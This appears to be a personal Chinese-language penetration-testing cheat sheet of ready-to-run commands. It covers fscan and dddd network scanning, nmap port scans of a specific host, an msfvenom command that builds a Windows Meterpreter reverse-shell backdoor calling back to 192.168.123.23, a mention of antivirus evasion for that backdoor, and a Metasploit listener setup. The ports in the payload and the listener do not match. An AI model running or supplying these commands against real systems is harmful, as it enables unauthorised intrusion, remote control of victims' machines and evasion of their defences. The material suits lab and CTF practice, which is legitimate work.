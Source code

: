 ```yaml
---
aliases:
cssclasses:
tags:
icon: pen-to-square
date:
---
```

## fscan降速版
```fscan
./fscan -hf "big ip-lnut.txt" \
        -t 100 \               # 大幅降低线程数（默认600）
        -num 5 \               # 降低POC扫描速率（默认20）
        -wt 10 \               # 增加Web超时时间（默认5）
        -time 5 \              # 增加常规超时时间（默认3）
        -br 1 \                # 暴力破解线程设为1（默认1）
        -o "fscan_result.txt"  # 输出结果文件
```
## dddd可视化输出
```dddd
./dddd_linux64 -target "big ip.txt" -o "big ip.html"
```
## nmap
### nmap端口粗描
```nmap
sudo nmap -sT --min-rate 10000 -p- 10.129.40.36 -oA nmapscan/ports
```
### nmap端口详扫
```nmap
sudo nmap -sT -sV -sC -O -p80,135,445,1985 10.129.40.36 -oA nmapscan/detail
```
## msfconsole
### 快捷键
ctrl+z将当前Meterpreter 会话收到后台
### msf生成后门(windows)
```msfconsole
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.123.23 LPORT=7788 -f raw -o shell.raw
```
- 注意：payload--windows/meterpreter/reverse_tcp为32位程序而payload---windows/x64/meterpreter/reverse_tcp​​为64位payload，在监听时要对应否则会导致连接秒断

对上面的后门进行免杀处理
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20251018201139.png)
### msf监听连接
```msf
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set lhost 192.168.123.23 
set lport 444 
exploit -j  # 后台监听,不占用当前命令行
```
- 注意要设置payload
- 注意：`payload--windows/meterpreter/reverse_tcp`为`32`位程序而`payload`---`windows/x64/meterpreter/reverse_tcp​​`为64位`payload`，在监听时要对应否则会导致连接秒断